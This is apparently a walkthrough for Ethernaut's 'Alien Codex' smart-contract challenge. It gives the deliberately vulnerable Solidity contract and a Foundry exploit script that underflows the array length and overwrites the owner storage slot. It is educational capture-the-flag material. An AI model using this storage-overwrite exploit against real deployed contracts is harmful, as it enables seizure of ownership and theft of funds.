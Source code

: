 # Level 19 - Alien Codex ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/19" %}

### Level Setup

{% hint style="info" %}
You've uncovered an Alien contract. Claim ownership to complete the level.

&#x20; Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/AlienCodex.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-19

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-19

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/6ed9d0b08c073bae1d67ccf3724e4822b5704713/script/Level19.s.sol" %}

{% code title="script/Level19.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                       LEVEL 19 - ALIEN CODEX                 │
// ================================================================
interface IAlienCodex {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        IAlienCodex alienCodex = IAlienCodex(targetContractAddress);

        vm.startBroadcast();

        // Make contact with the alien codex
        alienCodex.makeContact();

        // Retract the codex length by 1, causing an underflow
        alienCodex.retract();

        // Calculate the index in the array where the owner is stored
        uint256 arraySlot = uint256(keccak256(abi.encodePacked(uint256(1))));
        uint256 ownerSlot = 0;
        uint256 indexToModify = type(uint256).max - arraySlot + ownerSlot + 1;

        // Overwrite the owner with msg.sender
        alienCodex.revise(indexToModify, bytes32(uint256(uint160(msg.sender))));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
{% endhint %}

